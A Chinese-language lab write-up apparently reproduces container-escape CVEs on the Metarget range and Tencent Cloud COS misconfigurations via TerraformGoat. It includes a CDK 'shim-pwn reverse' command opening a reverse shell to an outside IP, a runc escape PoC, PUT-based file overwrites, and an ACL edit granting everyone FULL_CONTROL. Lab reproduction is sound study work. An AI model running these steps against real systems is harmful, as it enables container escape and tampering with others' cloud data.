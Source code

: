 # project01  漏洞复现                                                                             
一、start.......安装配置metarget靶场
1.拉取代码
root@VM-8-3-ubuntu:# git clone https://github.com/Metarget/metarget.git
2.切换目录
root@VM-8-3-ubuntu:# cd metarget/
3.安装依赖
root@VM-8-3-ubuntu:~/metarget# pip3 install -r requirements.txt
![image](https://github.com/user-attachments/assets/9ee7780c-38a3-484c-8455-34d2c8c8e46b)



## 1.	cve-2018-15664 容器逃逸
安装启动环境，查看版本
![image](https://github.com/user-attachments/assets/a224b3ec-36d2-40e3-b335-029301b82bee)
在这里找对应的POC，去做实验https://github.com/Metarget/cloud-native-security-book/tree/main
把poc放进metarget文件夹中，给两个执行文件（xx.sh为后缀）加上执行权限。如：chmod +x xxx.sh
![image](https://github.com/user-attachments/assets/973ded8d-b117-4464-a4fe-e9e978b4a96f)

![image](https://github.com/user-attachments/assets/9e5ec75d-bc5c-41bb-bbd2-c0411e270b83)

通过：执行命令
root@VM-8-3-ubuntu:~/metarget# ./run_write.sh 
FAILED -- HOST FILE UNCHANGED
Sending build context to Docker daemon  7.168kB
Step 1/11 : FROM opensuse/leap
Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
Unable to find image 'cyphar/symlink_swap:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
SUCCESS -- HOST FILE CHANGED
即可触发漏洞，完成复现






2.	cve-2019-13139 命令执行（不行）










3.	cve-2019-14271 容器逃逸(不行)









4.	cve-2020-15257 容器逃逸
安装漏洞环境root@VM-8-3-ubuntu:~/metarget# sudo ./metarget cnv install cve-2020-15257
![image](https://github.com/user-attachments/assets/d1ced1be-4672-4a6a-ae32-0f5e32bc22e5)

查看docker版本，下载ubuntu:18.04
远程连接到容器内部并查看containerd-shim
![image](https://github.com/user-attachments/assets/6462fb9a-6a5d-4e15-925d-df9d3663bf78)

下载漏洞利用工具：https://github.com/cdk-team/CDK/releases/tag/v1.0.2
![image](https://github.com/user-attachments/assets/fb5ec1de-00c9-47eb-8f82-14bb19dd4c08)

使用docker cp目录复制到容器内部
root@VM-8-3-ubuntu:~/metarget# docker cp cdk_linux_amd64 fbf9212c0fe6:/
连接到容器
root@VM-8-3-ubuntu:~/metarget# sudo docker exec -it fbf9212c0fe6 /bin/bash
给执行权限给该cdk
root@VM-8-3-ubuntu:/# chmod +x cdk_linux_amd64 

使用该工具执行漏洞利用。
root@VM-8-3-ubuntu:/# ./cdk_linux_amd64 run shim-pwn reverse 43.138.22.133 80  
（可能存在8888端口安全组没打开的情况）使用80端口，即可
![image](https://github.com/user-attachments/assets/eb1e8fa1-54d5-4d2c-afdb-894f214a5734)

成功获取shell
![image](https://github.com/user-attachments/assets/3ef7cb7c-c7ca-4ac2-8cf0-5dd0e1a9670a)

5.	cve-2019-5736 容器逃逸
安装环境
./metarget cnv install cve-2019-5736
![image](https://github.com/user-attachments/assets/9adbfc34-ce5c-4d0b-b1f4-9b98efcad554)
查看版本
![image](https://github.com/user-attachments/assets/cb9180c1-253b-462f-ba88-5db1d21f4158)
POC链接：
https://github.com/Frichetten/CVE-2019-5736-PoC
下载main.go并上传到服务器，修改payload信息

![image](https://github.com/user-attachments/assets/0067a375-7bc7-4105-bd4f-c68b5c727ee2)


编译
![image](https://github.com/user-attachments/assets/efe4a640-936e-4d98-9553-4eb4647b918f)
启动Ubuntu18的容器
把编译的main文件cp进去
然后登录容器
添加权限
执行POC，即可拿到shell
![image](https://github.com/user-attachments/assets/bd03b3be-97e4-44e4-bac0-5dced1943040)
成功拿shell
![image](https://github.com/user-attachments/assets/fda071fd-3574-4024-aba3-b0480297bb02)



6.	cve-2019-16884 容器逃逸(不行)




7.	cve-2017-1002101 容器逃逸(不行)






8.	cve-2019-11253 拒绝服务（不行）



9.	cve-2019-9946 流量劫持





10.	cve-2020-8554 中间人攻击
11.	cve-2020-8559 权限提升
12.	k8s_backdoor_daemonset 持久化








































































































end


二、start.......TerraformGoat安装部署
root@VM-8-3-ubuntu:~# docker pull registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker run -itd --name terraformgoat_tencentcloud_0.0.7 registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker exec -it terraformgoat_tencentcloud_0.0.7 /bin/bash

![image](https://github.com/user-attachments/assets/0cdd859d-f68f-414e-94dd-fcee73a7a302)
部署完成

1.启动环境（对象遍历）
cd /TerraformGoat/tencentcloud/cos/bucket_object_traversal/

编辑文件vim terraform.tfvars
输入key和id，保存退出
输入命令：terraform init
terraform apply

![image](https://github.com/user-attachments/assets/c5451360-c506-44b3-baa3-058a2be911a7)

看到地址
![image](https://github.com/user-attachments/assets/3d0f2133-cb81-4817-9033-b0410256ca5c)

看到key

![image](https://github.com/user-attachments/assets/bf3e7381-0985-4108-a29d-02135ab0fa04)
添加key访问（可以看到已经有对应的对象被访问/下载）
![image](https://github.com/user-attachments/assets/969cb15f-26c5-4a00-a53f-b8caa7e158d5)

到此存储桶对象遍历漏洞复现完成
销毁漏洞环境：
![image](https://github.com/user-attachments/assets/c8011a92-a4a5-449b-a1a0-51554f95450f)

2.启动环境（任意文件上传）
切换目录
cd /TerraformGoat/tencentcloud/cos/unrestricted_file_upload/

输入密钥和id
vim terraform.tfvars
![image](https://github.com/user-attachments/assets/132fb4ff-6286-42ad-b934-bda4c63521ad)

部署运行
terraform init
terraform apply
可以看到链接
![image](https://github.com/user-attachments/assets/b37b2e12-57f5-4f0f-acb7-018698eb1371)

访问
![image](https://github.com/user-attachments/assets/f666b463-6ef1-4849-b3c4-bc098a297a97)

拼接照片名字，发现可以下载
![image](https://github.com/user-attachments/assets/87e61964-4d80-4b3e-9a96-6eae2856ae83)

现在可以通过PUT方法来覆盖这个文件（在bp中抓包修改方法，重新发包）
![image](https://github.com/user-attachments/assets/4a838295-f40d-451c-990f-7f67618c3132)

再次访问，发现照片是损坏的，这个就是覆盖成功的效果
![image](https://github.com/user-attachments/assets/22a2aee5-df7e-4c23-ab5a-3a4cec9f4113)

销毁环境完成
![image](https://github.com/user-attachments/assets/4da506c6-980b-4bc9-8d43-4f53d1bd1096)

3.公开访问
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_public_access
编辑 terraform.tfvars 文件，在文件中填入的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply
![image](https://github.com/user-attachments/assets/067a197d-d137-4f63-9000-88deb8ef4b1a)

![image](https://github.com/user-attachments/assets/003c9f33-f1cc-481c-828e-f14988671e03)

浏览器访问即可，公开访问是任意都可以访问
![image](https://github.com/user-attachments/assets/b6ae6f92-9970-4352-bfc9-1b29fe7fd47b)

销毁
![image](https://github.com/user-attachments/assets/9f496548-940a-49a4-a395-dc1bdea47f22)

4.ACL可写
这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。
环境搭建
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply

![image](https://github.com/user-attachments/assets/3cdf6d7d-5504-4284-8570-1f39e3811171)

访问（被拒绝），拼接?acl，发现可以访问
![image](https://github.com/user-attachments/assets/7a9ece5d-1678-4f43-bdb2-376d5f5a2fc5)

原始：
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>READ_ACP</Permission>
</Grant>
新的
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
刷新，查看已经添加成功
![image](https://github.com/user-attachments/assets/633a2795-8cc2-4343-b075-7ad5c0771415)

![image](https://github.com/user-attachments/assets/2ff06ba5-100d-4609-a710-9434a6ff84b0)

摧毁
![image](https://github.com/user-attachments/assets/ce11f8a5-f03f-4a15-afac-0707860ffe53)


5.服务端加密未开启
这是一个用于构建腾讯云 COS Bucket 服务端加密未开启的场景。

场景搭建
在容器中执行以下命令

cd /TerraformGoat/tencentcloud/cos/server_side_encryption_disable
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key

vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey

部署靶场

terraform init
![image](https://github.com/user-attachments/assets/402fa18c-0e3f-4914-8377-77c9e40c6b0d)

terraform apply
![image](https://github.com/user-attachments/assets/8e7fb71f-f953-4eb3-93d9-12ea27bb4a76)

打开，查看是未加密（照片）
![85eff7ba0ef95d7ad49f5340aaa7d32](https://github.com/user-attachments/assets/224b5bd8-6515-4178-b2c0-a1f145d51827)

销毁（照片）
![image](https://github.com/user-attachments/assets/ea222537-a88c-42fb-bf4c-7ea3df2e7913)

6.CVM SSRF  （x）








